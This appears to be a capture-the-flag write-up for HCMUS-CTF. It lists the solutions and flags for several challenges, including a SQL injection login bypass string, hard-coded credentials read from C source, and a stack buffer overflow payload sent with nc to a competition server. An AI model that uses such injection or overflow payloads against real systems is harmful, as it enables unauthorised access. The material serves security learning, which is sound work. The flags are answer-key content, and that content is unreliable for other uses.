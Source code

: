 # HCMUS-CTF
## Discord
- Go to https://discord.com/channels/714108446370299925/717326910908137482 the you see:
- Flag for discord: HCMUS-CTF{089 111 085 095 107 110 060 062 119 095 100 105 115 099 111 114 068 095 064 110 100 095 085 095 075 110 048 119 095 065 083 067 073 073}
- This ascii of characters. Decode:
- Flag is: HCMUS-CTF{YoU_kn<>w_discorD_@nd_U_Kn0w_ASCII}
## Baby SQL
- Challenges at: http://159.65.13.76:1339/ 
- This is basic SQL injection. Username: admin. Pass:'or '1'='1.
- The flag is: HCMUS-CTF{Sh0uld_N0tz_Conc4ten4te_S+r1ng_SQQLLL}
## TellMe
- Open file tellme.c
- You will see this code:
<pre><code>
	if(userid == 0x3211 && !strcmp("sUpErPassHCMUS\n", passwd)){
		printf("Wellcome back! Aministrator ^_^\n");
		fflush(stdout);
		fflush(stdin);
		system("/bin/cat flag");
		exit(0);	
	}
</code></pre>
- UserID: 12817
- Password: sUpErPassHCMUS
- Flag is: HCMUS-CTF{Ohhh~Just_give_me_the_credential!!Nah}
## StackString
- Decompiler stackstring with Ghidra Tool:
- In function main you will see:
- ![alt text](https://github.com/1712249/HCMUS-CTF_Capoo/blob/master/vinhph/stackstring.png)
- Hexdecode you get:
- local_50:}3
- local_70:_Kc4tS{F
- local_68:G_gn1rtS
- local_58:uq1nhcet
- local_78:TC-SUMCH
- local_60:_dlo_D00
- Flag is: HCMUS-CTF{St4cK_Str1ng_G00D_old_techn1qu3}
## Patient
- Auto Click 500 times.
- Flag is: HCMUS-CTF{WOW_yOu_are_p4tient}.
## PatientRevenge
- Auto Click 100000 times.
- Flag is: HCMUS-CTF{I_hope_you_dont_click_by_hand}
## FlowMe
- Openfile flowme.c.
- You will see this code: 
<pre><code>
int secret_func(){
    system("/bin/cat flag.txt");
    return 0;
}

int authentication(char *password) {
    char password_buffer[256];
    strcpy(password_buffer, password);
    if(strcmp(password_buffer, "this_is_a_password") == 0)
        return 1;
    
    return 0;
}
</code></pre>
- I guess buffer overflow from function strcpy at authenticaiton to function secret_func.
- Use GDB and [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) this function is overflow at 256 and Adress secret_func is: 0x00000000004007ea 
- This is payload: 
<pre><code>
	echo $(python -c 'print "A" * 264 +"\xea\x07\x40\x00\x00\x00\x00\x00"') | nc 159.65.13.76 33103
</code></pre>
